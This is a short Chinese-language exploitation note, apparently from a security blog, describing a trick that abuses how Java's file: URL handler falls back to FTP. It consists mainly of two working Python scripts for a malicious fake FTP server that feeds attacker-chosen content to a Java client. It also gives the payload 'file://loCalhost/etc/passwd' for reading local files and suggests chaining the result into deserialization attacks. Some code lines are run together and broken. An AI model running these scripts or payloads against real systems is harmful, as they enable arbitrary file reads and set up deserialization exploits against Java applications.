

# FTP-trick

知识星球学到的，恶意的ftp服务端：

```python
# evil_ftp.py 
import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23)) 
s.listen(1) 
conn, addr = s.accept()

conn.send(b'220 welcome\n') 
print(conn.recv(1024))

conn.send(b'331 Please specify the password.\n') 
print(conn.recv(1024))

conn.send(b'230 Login successful.\n') 
print(conn.recv(1024))

conn.send(b'200 /etc/passwd\n') 
print(conn.recv(1024))

conn.send(b'1 to Passive.\n') 
print(conn.recv(1024))

# to vps 
# mac 
# conn.send(b'227 Entering Extended Passive Mode (127.0.0.1,0,900)\n') 
# windows 
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,900)\n') print(conn.recv(1024))

#QUIT 
conn.send(b'221 Goodbye.\n') 
print(conn.recv(1024)) 
conn.close()
```


```python
import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 900)) 
s.listen(1) conn, addr = s.accept() 
conn.send(b'this is fack ftp server return\n') 
conn.close()
```

对于java的协议，file协议在host不是`~`或`localhost`的时候会进行ftp请求：



可以有如下trick：

```
file://loCalhost/etc/passwd
```


也可以创建恶意的ftp服务器，请求得到任何的内容，可以供后续可能的反序列化等利用。

## References

https://t.zsxq.com/19qEy3MaH